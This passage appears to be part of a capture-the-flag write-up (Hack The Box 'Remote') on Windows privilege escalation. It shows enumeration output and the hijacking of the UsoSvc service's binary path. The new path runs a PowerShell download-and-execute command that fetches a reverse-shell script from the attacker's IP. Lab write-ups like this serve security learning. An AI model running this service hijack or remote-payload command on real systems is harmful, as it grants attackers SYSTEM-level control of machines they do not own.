


# 25 - PrivEsc


# SeImpersonatePrivilege is enabled
```bash
PS C:\Users> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

Juicy potato doesn't work on this box. It's Windows Server 2019 Standard. Rogue potato came out after this box is released so it's not the intended way.


# WinPEAS.exe
```bash
┌─[user@parrot]─[10.10.14.18]─[~/htb/remote/www]
└──╼ $ cp /opt/privilege-escalation-awesome-scripts-suite/winPEAS/winPEASexe/binaries/x64/Release/winPEASx64.exe .
```


# UsoSvc


It's a modifiable service, we can modify the path of this service to elevate privileges.


```bash
PS C:\> sc.exe qc usosvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: usosvc
        TYPE               : 20  WIN32_SHARE_PROCESS 
        START_TYPE         : 2   AUTO_START  (DELAYED)
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Windows\system32\svchost.exe -k netsvcs -p
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : Update Orchestrator Service
        DEPENDENCIES       : rpcss
        SERVICE_START_NAME : LocalSystem
```

.exe extension is important because 

```bash
PS C:\> alias sc

CommandType     Name                                               Version    Source
-----------     ----                                               -------    ------
Alias           sc -> Set-Content
```

sc is an alias in powershell.

# Modifying binpath of UsoSvc
```bash
PS C:\> sc.exe  config UsoSvc binpath= "cmd /c powershell.exe IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.18/rev.ps1')"
[SC] ChangeServiceConfig SUCCESS
PS C:\> net.exe stop UsoSvc
The Update Orchestrator Service service is stopping.
The Update Orchestrator Service service was stopped successfully.
PS C:\> net.exe start UsoSvc
```


# System
